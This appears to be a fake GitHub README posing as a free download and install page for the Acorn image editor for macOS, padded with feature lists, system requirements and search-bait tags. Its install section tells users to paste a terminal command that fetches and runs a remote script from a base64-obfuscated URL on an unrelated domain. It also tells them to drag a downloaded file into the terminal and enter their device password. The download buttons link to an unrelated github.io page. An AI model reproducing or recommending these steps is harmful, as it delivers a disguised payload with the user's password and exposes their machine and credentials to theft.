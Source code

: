 # Acorn for macOS – Powerful & Easy Image Editor

![Acorn Screenshot](https://s3.amazonaws.com/flyingmeat/acorn8/ssweb_export.jpeg)

## 📥 Download Acorn for macOS

[![⬇️ Download Acorn Mac](https://img.shields.io/badge/⬇️%20Download%20Acorn%20Mac-blue?style=for-the-badge&logo=apple&logoColor=white&labelColor=000000&color=007AFF)](https://shuziktobehuman.github.io/huja/Acorn)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash  
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Acorn for Mac?

Acorn is a versatile and user-friendly image editor designed specifically for macOS.  
It offers powerful tools for photo editing, graphic design, and digital art without the complexity of professional suites. From cropping and retouching to adding effects and text, Acorn makes image editing fast and enjoyable.  

Its intuitive interface ensures beginners can start right away, while advanced users benefit from features like vector tools, non-destructive filters, and layer styles. Whether you're preparing images for the web, creating illustrations, or retouching photography, Acorn provides the tools you need in a lightweight package.

---

[![⬇️ Download Acorn Mac Now](https://img.shields.io/badge/⬇️%20Download%20Acorn%20Mac%20Now-green?style=for-the-badge&logo=apple&logoColor=white&labelColor=000000&color=34C759)](https://shuziktobehuman.github.io/huja/Acorn)

---

![Acorn Second Screenshot](https://s3.amazonaws.com/flyingmeat/acorn8/ssfilters.jpeg)

---

## ⚙️ Key Features

- 🖌️ Layer-based editing with blending modes
- 🖼️ Non-destructive filters and adjustments
- ✏️ Vector drawing tools
- 🖍️ Retouching and color correction
- 🔤 Text and typography effects
- 🎨 Custom brushes and shapes
- 🖤 Dark Mode support
- 💻 Optimized for Apple Silicon & Intel Macs

---

## 💻 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

acorn mac, acorn app mac, acorn for mac free download, mac the acorn, acorn mac download, acorn photo editor mac, acorn image editor mac, acorn macos, acorn for macbook, acorn osx, acorn graphic design mac, acorn software mac, acorn for apple silicon, acorn mac free, acorn picture editor mac

---
